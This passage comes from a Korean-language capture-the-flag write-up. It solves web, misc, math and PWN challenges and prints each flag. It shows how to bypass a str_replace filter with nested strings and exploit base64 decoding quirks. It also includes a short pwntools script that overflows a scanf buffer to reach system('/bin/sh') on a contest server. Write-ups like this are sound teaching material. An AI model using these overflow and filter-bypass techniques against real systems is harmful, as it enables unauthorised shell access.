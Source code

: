 첫 스테이지에서 get방식으로 name을 admin으로 값을 넘겨야 stage2로 간다.

두번 째 스테이지에서 get방식으로 값이 admin이 되야지 다음 스테이지로 넘어간다는 것을 알았다. 중간에 코드를 보니 str_replace함수로 인해 admin을 그대로 입력하면 값이 사라진다는 걸 알았다. 따라서 admin사이에 admin이라는 말을 아무대나 집어넣으면 풀린다는 걸 알았다. admadminin을 넣었더니 stage3로 넘어갔다.

세번 째 스테이지 get방식으로 name을 admin으로 값을 넘겨야 플래그를 얻을 수 있다는걸 알았다. 그래서 str_replace 함수를 보니 name값이 계속 str_replace 함수로 인해 계속 바뀐다는 것을 알았다. 그래서 str_replace 맨 밑에서부터 차례대로 값을 변경해줘서 admdmiadmdmiinin을 넣었더니 FLAG를 얻었다.

**FLAG : `flag is Sunrin{th1s_ch4ll_1s_very*30_e4sy_chall}`**

<br />

* **easy_misc - 130pt**

첫번 째 스테이지에서 base64로 디코딩하였더니 wooooooooooooooooow_THis_is_stage1_key!!!이 나왔다.

두번 째 스테이지에서 input1 디코딩한 값과 input2 디코딩한 값이 같은데 길이는 달라야한다. 그래서 2번째 스테이지에서 input1을 = input2를 ==를 넣었다. 

세번 째 스테이지에서 input1 디코딩한 값과 input2 디코딩한 값이 같고 길이는 같은데 원문이 달라야한다. 그래서 input1에 == input2에 !=을 넣었다. You are....misc hacker..가 뜨면서 플래그가 나왔다.

**FLAG : `Sunrin{B4SE64_M4st3r}`**

<br />

* **Easy Math Game - 150pt**

nc로 접속해서 나온 머리로 암산해서 일일이 방정식들을 풀었다 ....

**FLAG : `Sunrin{Th1s_1s_B4sic_m4th_g4m3}`**

<br />

### PWN

* **WhatIsBOF - 50pt**

![1](https://user-images.githubusercontent.com/32904385/47615075-6fa52b80-daed-11e8-8d37-418788764271.png)

V4를 scanf로 받고 v5가 AAAA인지를 1094795585인지를 체크하고 맞다면 system(“/bin/sh”)를 사용한다. 

그러나 scanf에서 bof취약점이 발생한다.

 V4는 esp+2h에 위치하고 v5는 esp+20h에 위치함으로 우리는 v5의 값을 우리가 원하는 값으로 바꿀 수 있다.

```python
from pwn import * 
 
r=remote("110.10.189.33",19886) 
payload="A"*100 
r.sendline(payload) 
r.interactive()
```

![2](https://user-images.githubusercontent.com/32904385/47615076-70d65880-daed-11e8-8db9-bd31fdd02115.png)

**FLAG : `Sunrin{AAAAAAAAAAAAABOF}`**

<br />

* **What Is ShellCode - 75pt**
